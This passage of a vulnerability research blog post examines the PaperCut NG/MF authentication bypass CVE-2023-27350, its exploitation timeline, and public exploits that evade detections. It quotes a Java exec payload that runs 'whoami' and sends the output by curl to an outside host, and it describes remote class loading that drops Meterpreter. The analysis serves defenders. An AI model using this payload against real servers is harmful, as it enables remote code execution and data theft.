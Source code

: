 ::check-list\\n---\\ntitle: Key Takeaways\\nico: mdi:check-bold\\nlist:\\n - In mid-April attackers began exploiting a vulnerability in PaperCut NG and MF that was later assigned CVE-2023-27350.\\n - Multiple security organizations published exploit detections and indicators of compromise, including Huntress, Horizon3.ai, Proofpoint, and Microsoft. \\n - Today, VulnCheck published a proof-of-concept exploit that bypasses all published detections. \\n - This report shows that detections that focus on one code execution method, or that focus on a small subset of techniques used by one threat actor, are doomed to be useless in the next round of attacks.\\n - Since attackers learn from defenders' public detections, it's the defenders’ responsibility to produce robust detections that aren’t easily bypassed.\\n---\\n::\\n\\n# Introduction\\n\\nIn mid-April, attackers began exploiting a vulnerability in \[PaperCut\](https://www.papercut.com/) NG and MF. The exploited vulnerability would later be assigned \[CVE-2023-27350\](https://nvd.nist.gov/vuln/detail/CVE-2023-27350). Multiple security organizations have published exploit detections and indicators of compromise that assume attackers are executing code through PaperCut’s built-in scripting interface. However, VulnCheck researchers have found a proof-of-concept exploit that bypasses all published detections from Huntress, Horizon3.ai, Emerging Threats and Microsoft. \\n\\nHow did this happen? PaperCut NG and MF offer multiple paths to code execution. In this blog, we detail one such path and show how an attacker can avoid existing detections based on the defender's incorrect assumptions.\\n\\nBefore diving into the new code execution path, let’s look at the history of this vulnerability and survey the current exploits and detections that the security community has published.\\n\\n# Background\\n\\n## Timeline \\n\\n::time-line\\n---\\nentries: \\n - date: March 15, 2023\\n markdown: PaperCut Software released an \[advisory\](https://web.archive.org/web/20230315190445/https://www.papercut.com/kb/Main/PO-1216-and-PO-1219) for two vulnerabilities discovered by Trend Micro’s \[ZDI\](https://www.zerodayinitiative.com/) program. The initial advisory contained no CVE identifiers, but instead referred to the vulnerabilities by their ZDI names: \[ZDI-CAN-18987\](https://www.zerodayinitiative.com/advisories/ZDI-23-233/) and \[ZDI-CAN-19226\](https://www.zerodayinitiative.com/advisories/ZDI-23-232/).\\n - date: April 13, 2023\\n markdown: Attacks in the wild began around this \[time\](https://news.sophos.com/en-us/2023/04/27/increased-exploitation-of-papercut-drawing-blood-around-the-internet/).\\n - date: April 19, 2023\\n markdown: PaperCut Software updated their \[advisory\](https://web.archive.org/web/20230419185044/https://www.papercut.com/kb/Main/PO-1216-and-PO-1219) to indicate the vulnerabilities had been exploited in the wild.\\n - date: April 20, 2023\\n markdown: CVE identifiers for the vulnerabilities were \[published\](https://www.cve.org/CVERecord?id=CVE-2023-27350). The authentication bypass was assigned CVE-2023-27350. The CVEs were published by ZDI, more than a month after they published their own advisories.\\n - date: April 21, 2023\\n markdown: Huntress Labs published a blog detailing exploitation in the wild. CISA added CVE-2023-27350 to the CISA KEV list. Public exploits demonstrating the bypass appeared on \[GitHub\](https://raw.githubusercontent.com/TamingSariMY/CVE-2023-27350-POC/main/vuln.py).\\n - date: April 24, 2023\\n markdown: Horizon3.ai \[published\](https://www.horizon3.ai/papercut-cve-2023-27350-deep-dive-and-indicators-of-compromise/) an exploit that demonstrated the bypass \*and\* executed arbitrary code.\\n - date: April 26, 2023\\n markdown: Microsoft attributes attacks in mid-April to \[TA505\](https://malpedia.caad.fkie.fraunhofer.de/actor/ta505).\\n---\\n::\\n\\n## Public Exploits\\n\\nAt the time of writing, two public exploit variants use CVE-2023-27350 and execute arbitrary code on PaperCut NG and MF:\\n\\n1. Exploits that use the PaperCut print scripting interface to execute Windows commands (variations on the Horizon3.ai exploit).\\n2. Exploits that use the print scripting interface to drop a malicious JAR (see this Metasploit \[pull request\](https://github.com/rapid7/metasploit-framework)).\\n\\nIn both cases, the attacker abuses the system’s built-in JavaScript interface. The JavaScript engine is \[Rhino\](https://en.wikipedia.org/wiki/Rhino\_(JavaScript\_engine)), which also allows that user to execute arbitrary Java. PaperCut Software implemented configuration options to lessen the risk of this arbitrary code execution vector, but since the attacker has full administrative access, those protections are easily disabled.\\n\\nHorizon3.ai’s exploit uses the scripting interface to execute a single Windows command (\`whoami\`) and sends the response back to the attacker via \`curl\`:\\n\\n\`\`\`java\\njava.lang.Runtime.getRuntime().exec('cmd.exe /C \\"for /F \\"usebackq delims=\\" %A in (\`whoami\`) do curl http://10.0.40.83:8081/%A\\"');\\n\`\`\`\\n\\nPerhaps the main reason they didn’t establish a reverse shell is because the scripting engine has a five second timeout (see decompiled code below). The attacker cannot maintain execution in the engine itself; they have to migrate to another process. \\n\\n!\[decompiled papercut jar\](/blog/papercut-rce/rhino-timeout.png){:width="100%"}\\n\\nThe previously mentioned Metasploit module is interesting. It doesn’t use \`java.Runtime.getRuntime().exec()\`. Instead, it uses \`java.net.URLClassLoader\` to load a remote Java class. The loaded class will eventually drop a Meterpreter JAR to disk and execute it.\\n\\nThe Java-focused exploitation is useful because PaperCut NG and MF support Linux, Mac, \*and\* Windows. A Windows-only only attack is restricted to… only Windows victims. This approach treats